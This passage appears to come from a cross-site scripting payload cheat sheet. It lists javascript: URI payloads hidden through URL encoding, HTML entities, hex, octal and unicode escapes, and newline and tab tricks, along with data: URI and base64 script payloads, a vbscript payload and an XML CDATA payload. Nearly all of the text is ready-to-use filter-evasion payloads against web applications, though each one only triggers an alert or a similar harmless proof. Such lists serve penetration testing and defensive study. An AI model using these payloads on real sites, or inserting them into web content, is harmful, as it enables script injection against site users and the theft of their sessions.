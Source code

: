 ## XSS in wrappers javascript and data URI

XSS with javascript:

```javascript
javascript:prompt(1)

%26%23106%26%2397%26%23118%26%2397%26%23115%26%2399%26%23114%26%23105%26%23112%26%23116%26%2358%26%2399%26%23111%26%23110%26%23102%26%23105%26%23114%26%23109%26%2340%26%2349%26%2341

&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#99&#111&#110&#102&#105&#114&#109&#40&#49&#41

We can encode the "javacript:" in Hex/Octal
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
\152\141\166\141\163\143\162\151\160\164\072alert(1)

We can use a 'newline character'
java%0ascript:alert(1)   - LF (\n)
java%09script:alert(1)   - Horizontal tab (\t)
java%0dscript:alert(1)   - CR (\r)

Using the escape character
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)

Using the newline and a comment //
javascript://%0Aalert(1)
javascript://anything%0D%0A%0D%0Awindow.alert(1)
```

XSS with data:

```javascript
data: text / html, (<script>alert(0)</script>);
data: text / html;
base64,
  PHN2Zy9vbmxvYWQ9YWxlcnQoMik +
  <script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>;
```

XSS with vbscript: only IE

```javascript
vbscript: msgbox("XSS");
```

## XSS in files

** NOTE:** The XML CDATA section is used here so that the JavaScript payload
will not be treated as XML markup.

```xml
<name>
  <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
</name>
```

